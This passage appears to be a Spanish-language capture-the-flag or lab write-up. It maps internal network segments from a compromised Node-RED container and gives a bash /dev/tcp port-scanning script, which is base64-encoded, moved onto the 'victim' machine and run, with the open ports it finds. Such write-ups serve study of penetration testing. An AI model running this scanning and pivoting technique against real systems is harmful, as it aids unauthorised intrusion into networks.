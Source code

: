  # Mapeado de RED 2
 Vemos que tenemos dos segmentos de Red:
```bash
Node_RED: 
            Interfaces
    Segmento 1    - 172.18.0.2
    Segmento 2    - 172.19.0.4    

Siguientes Nuevos Hosts: 
            Interfaces
     Segmento 1   - 172.18.0.1
     Segmento 2   - 172.19.0.1 - 172.19.0.2 - 172.19.0.3
```

Vamos a proceder a modificar nuestro `Script en Bash`
```bash
# cat HostsPortsD.sh 
#!/bin/bash

hosts=("172.18.0.1" "172.19.0.1" "172.19.0.2" "172.19.0.3")

for host in ${hosts[@]}; do
        echo -e "\n[+]Scanning ports in $host\n"
        for port in $(seq 1 10000); do
                timeout 1 bash -c "echo '' > /dev/tcp/$host/$port" 2> /dev/null && echo -e "\t[*] Puerto: $port - ABIERTO [*]" &
        done; wait
done
```
Hacemos el mismo procedimiento para este script y lo codificamos en base64 igual que antes
```bash
- Coding en base64
# base64 -w 0 HostsPortsD.sh
IyEvYmluL2Jhc2gKCmhvc3RzPSgiMTcyLjE4LjAuMSIgIjE3Mi4xOS4wLjEiICIxNzIuMTkuMC4yIiAiMTcyLjE5LjAuMyIpCgpmb3IgaG9zdCBpbiAke2hvc3RzW0BdfTsgZG8KICAgICAgICBlY2hvIC1lICJcblsrXVNjYW5uaW5nIHBvcnRzIGluICRob3N0XG4iCiAgICAgICAgZm9yIHBvcnQgaW4gJChzZXEgMSAxMDAwMCk7IGRvCiAgICAgICAgICAgICAgICB0aW1lb3V0IDEgYmFzaCAtYyAiZWNobyAnJyA+IC9kZXYvdGNwLyRob3N0LyRwb3J0IiAyPiAvZGV2L251bGwgJiYgZWNobyAtZSAiXHRbKl0gUHVlcnRvOiAkcG9ydCAtIEFCSUVSVE8gWypdIiAmCiAgICAgICAgZG9uZTsgd2FpdApkb25lCg==

- Decoding en base64
root@nodered:/node-red# echo "IyEvYmluL2Jhc2gKCmhvc3RzPSgiMTcyLjE4LjAuMSIgIjE3Mi4xOS4wLjEiICIxNzIuMTkuMC4yIiAiMTcyLjE5LjAuMyIpCgpmb3IgaG9zdCBpbiAke2hvc3RzW0BdfTsgZG8KICAgICAgICBlY2hvIC1lICJcblsrXVNjYW5uaW5nIHBvcnRzIGluICRob3N0XG4iCiAgICAgICAgZm9yIHBvcnQgaW4gJChzZXEgMSAxMDAwMCk7IGRvCiAgICAgICAgICAgICAgICB0aW1lb3V0IDEgYmFzaCAtYyAiZWNobyAnJyA+IC9kZXYvdGNwLyRob3N0LyRwb3J0IiAyPiAvZGV2L251bGwgJiYgZWNobyAtZSAiXHRbKl0gUHVlcnRvOiAkcG9ydCAtIEFCSUVSVE8gWypdIiAmCiAgICAgICAgZG9uZTsgd2FpdApkb25lCg==" | base64 -d > hostPortsD.sh
```
Lo Ejecutamos en la maquina Victima `Node-RED`
```bash
root@nodered:/node-red# ./hostPortsD.sh 

[+]Scanning ports in 172.18.0.1             --------------- esta no tiene sentido ya que si es un docker muy probablemte por eso tenga el mismo puerto abierto
        [*] Puerto: 1880 - ABIERTO [*]

[+]Scanning ports in 172.19.0.1             ---------------- nada

[+]Scanning ports in 172.19.0.2             ---------------- puerto 80 abierto   
        [*] Puerto: 80 - ABIERTO [*]

[+]Scanning ports in 172.19.0.3             ---------------- puerto 6379 abierto
        [*] Puerto: 6379 - ABIERTO [*]
```
